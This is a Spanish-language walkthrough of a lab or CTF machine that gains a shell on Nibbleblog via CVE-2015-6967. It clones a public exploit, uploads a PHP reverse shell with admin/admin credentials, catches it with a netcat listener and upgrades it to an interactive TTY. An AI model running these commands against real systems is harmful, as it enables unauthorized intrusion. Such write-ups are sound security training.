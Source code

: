 [Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Una vez que tengamos la reverse shell lista, descargamos el repositorio y ejecutamos el exploit.

```bash
git clone https://github.com/dix0nym/CVE-2015-6967.git
```
![image](https://github.com/user-attachments/assets/961eed03-0f9b-4739-910b-68db1bcb83d0)

Ejecutamos el siguiente comando para lanzar el exploit:

```bash
python3 exploit.py --url http://172.17.0.2/nibbleblog/ --username admin --password admin --payload ../shell.php
```
![image](https://github.com/user-attachments/assets/05587267-7e2a-493c-a53d-f8014fa5622f)

Investigando un poco más, descubrimos que en este repositorio están los plugins:
`http://172.17.0.2/nibbleblog/content/private/plugins/`

![image](https://github.com/user-attachments/assets/f5497815-e9bc-4367-9b0f-43be7cc8c2ec)

### Pasos para Cargar la Reverseshell

Nos ponemos a escuchar en nuestro caso el puerto 4444 con `netcat`:
```bash 
nc -lvnp 4444
```
Luego accedemos a la ruta donde subimos la reverse shell, haciendo clic en el archivo `image.php`:

![image](https://github.com/user-attachments/assets/87fb6f40-fbe1-4394-b1b4-503c15c52bd4)

Con esto, ya tendríamos acceso a la máquina.

![image](https://github.com/user-attachments/assets/63dc6070-4522-4655-9f14-f39f94fa82d5)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```
